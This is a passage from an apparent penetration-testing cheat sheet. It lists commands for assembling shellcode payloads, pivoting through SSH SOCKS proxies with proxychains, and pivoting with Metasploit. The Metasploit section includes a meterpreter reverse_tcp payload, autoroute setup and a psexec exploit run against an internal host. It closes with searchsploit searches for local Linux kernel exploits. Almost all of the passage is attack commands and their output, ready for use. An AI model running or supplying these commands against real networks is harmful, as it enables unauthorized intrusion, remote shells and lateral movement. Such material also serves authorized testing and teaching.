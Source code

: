 ```
nasm -f bin -o payload.bin payload.asm
nasm -f elf payload.asm; ld -o payload payload.o; objdump -d payload
```
### SSH Pivoting
```
ssh -D 127.0.0.1:1080 -p 22 user@IP
Add socks4 127.0.0.1 1080 in /etc/proxychains.conf
proxychains commands target
```
### SSH Pivoting from One Network to Another

```
ssh -D 127.0.0.1:1080 -p 22 user1@IP1
Add socks4 127.0.0.1 1080 in /etc/proxychains.conf
proxychains ssh -D 127.0.0.1:1081 -p 22 user1@IP2
Add socks4 127.0.0.1 1081 in /etc/proxychains.conf
proxychains commands target
```
### Pivoting Using metasploit

```
route add X.X.X.X 255.255.255.0 1
use auxiliary/server/socks4a
run
proxychains msfcli windows/* PAYLOAD=windows/meterpreter/reverse_tcp LHOST=IP LPORT=443 RHOST=IP E

or

# https://www.offensive-security.com/metasploit-unleashed/pivoting/
meterpreter > ipconfig
IP Address  : 10.1.13.3
meterpreter > run autoroute -s 10.1.13.0/24
meterpreter > run autoroute -p
10.1.13.0          255.255.255.0      Session 1
meterpreter > Ctrl+Z
msf auxiliary(tcp) > use exploit/windows/smb/psexec
msf exploit(psexec) > set RHOST 10.1.13.2
msf exploit(psexec) > exploit
meterpreter > ipconfig
IP Address  : 10.1.13.2
```
### Exploit-DB search using CSV File

```
git clone https://github.com/offensive-security/exploit-database.git
cd exploit-database
./searchsploit –u
./searchsploit apache 2.2
./searchsploit "Linux Kernel"

cat files.csv | grep -i linux | grep -i kernel | grep -i local | grep -v dos | uniq | grep 2.6 | egrep "<|<=" | sort -k3
```
### MSF Payloads
